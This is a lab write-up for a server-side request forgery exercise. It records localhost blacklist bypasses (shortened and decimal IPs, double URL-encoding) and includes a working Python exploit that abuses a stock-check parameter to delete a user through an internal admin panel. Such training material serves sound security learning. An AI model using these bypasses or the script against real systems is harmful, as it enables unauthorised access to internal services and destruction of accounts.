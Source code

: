 Vulnerable feature - stock check functionality

Goal - Change the stock check URL to access the admin interface at http://localhost/admin and delete the user Carlos.

Analysis: 
http://127.0.0.1/ -> blocked
http://127.1/ -> bypass
http://2130706433/ -> bypass

*Google: IP address to decimal version*
127.0.0.1 -> 2130706433

http://127.1/admin -> blocked

- URL decoding one time (Burp - Ctrl+Shift+u)
- regex search using a blacklist of strings

==Encode [a]dmin twice in burp== (Convert selection -> URL -> URL-encode all characters)
admin interface: http://127.1/%25%36%31dmin
delete carlos: http://127.1/%25%36%31dmin/delete?username=carlos

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(url):
    delete_user_url_ssrf_payload = 'http://127.1/%61dmin/delete?username=carlos'
    check_stock_path = '/product/stock'
    params = {'stockApi': delete_user_url_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)

    # Check if user was deleted
    params2 = {'stockApi': 'http://127.1/%61dmin/'}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'User deleted successfully' in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was not successful.")

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)

if __name__ == "__main__":
    main()
```

RUN:
```bash
python3 ssrf-lab-03.py 'https://ac0b1f8d1ff73e428074793800860063.web-security-academy.net'
```
END!